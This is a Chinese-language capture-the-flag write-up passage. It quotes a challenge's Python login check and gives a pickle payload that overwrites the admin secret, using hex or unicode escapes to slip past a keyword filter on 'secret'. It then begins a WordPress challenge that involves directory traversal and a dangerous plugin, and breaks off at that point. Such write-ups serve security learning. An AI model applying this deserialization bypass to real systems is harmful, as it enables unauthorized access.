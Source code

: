## 预期

预期就是走题目的逻辑，他会判断secret是否匹配，但是这里是secret是未知的

```
if userdata.token!=hash(get_password(userdata.username)):
     return "Login First"
if userdata.username=='admin':
     return "Welcome admin, here is your next challenge!"
     

def get_password(username):
    if username=="admin":
        return admin.secret
    else:
        # conn=sqlite3.connect("user.db")
        # cursor=conn.cursor()
        # cursor.execute(f"select password from usertable where username='{username}'")
        # data=cursor.fetchall()[0]
        # if data:
        #     return data[0] 
        # else:
        #     return None
        return session.get("password")
```

这题有点像：**高校战疫网络安全分享赛:webtmp**，做法就是覆盖掉secret绕过验证，只不过这里对secret关键词进行了过滤，解决办法是unicode编码

![image-20220802211532387](https://tuchuang.huamang.xyz/img/image-20220802211532387.png)

这里看到nu1l的wp，发现可以直接hex绕，也是可以的

```
b'''capp
admin
(S'\\x73ecret'
S'1'
db.'''
```

进去就可以修改负载均衡的配置了



# WP-UM

一进去就是一个安装

![image-20220802211909442](https://tuchuang.huamang.xyz/img/image-20220802211909442.png)

账号密码放在根目录下了，这就很刻意的让我们去目录遍历去找账号密码了

他提到了危险出插件，题目给了源码，我们直接进去看看装了什么插件

![image-20220802212048525](https://tuchuang.huamang.xyz/img/image-20220802212048525.png)
